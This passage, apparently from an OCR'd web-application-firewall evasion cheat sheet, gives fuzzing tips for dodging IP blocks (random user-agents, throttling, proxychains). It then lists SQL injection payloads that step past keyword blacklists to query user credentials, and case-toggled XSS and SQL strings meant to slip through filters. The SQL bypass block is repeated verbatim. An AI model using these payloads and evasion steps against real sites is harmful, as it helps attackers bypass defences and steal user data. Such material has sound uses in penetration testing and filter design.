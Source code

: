 **Technique:**
* Load up your wordlist into fuzzer and start the bruteforce.
* Record/log all responses from the different payloads fuzzed.
* Use random user-agents, ranging from Chrome Desktop to iPhone browser.
* If blocking noticed, increase fuzz latency (eg. 2-4 secs).
* Always use proxychains, since chances are real that your IP gets blocked.

### Blacklisting Detection/Bypass
**SQL Injection**
```bash
# Keywords Filtered: and, or, union
Probable Regex: preg_match('/(and|or|union)/i', $id)
Blocked Attempt: union select user, password from users
Bypassed Injection: 1 || (select user from users where user_id = 1) = 'admin'


# Keywords Filtered: and, or, union, where
Blocked Attempt: 1 || (select user from users where user_id = 1) = 'admin'
Bypassed Injection: 1 || (select user from users limit 1) = 'admin'


# Keywords Filtered: and, or, union, where, limit
Blocked Attempt: 1 || (select user from users limit 1) = 'admin'
Bypassed Injection: 1 || (select user from users group by user_id having user_id = 1) = 'admin'


# Keywords Filtered: and, or, union
Probable Regex: preg_match('/(and|or|union)/i', $id)
Blocked Attempt: union select user, password from users
Bypassed Injection: 1 || (select user from users where user_id = 1) = 'admin'


# Keywords Filtered: and, or, union, where
Blocked Attempt: 1 || (select user from users where user_id = 1) = 'admin'
Bypassed Injection: 1 || (select user from users limit 1) = 'admin'


# Keywords Filtered: and, or, union, where, limit
Blocked Attempt: 1 || (select user from users limit 1) = 'admin'
Bypassed Injection: 1 || (select user from users group by user_id having user_id = 1) = 'admin'
```

## Obfuscation
**1. Case Toggling**
```bash
# Standard
<script>alert()</script>
# Bypassed
<ScRipT>alert()</sCRipT>

# Standard
SELECT * FROM all_tables WHERE OWNER = 'DATABASE_NAME'
# Bypassed
sELecT * FrOm all_tables whERe OWNER = 'DATABASE_NAME'
```
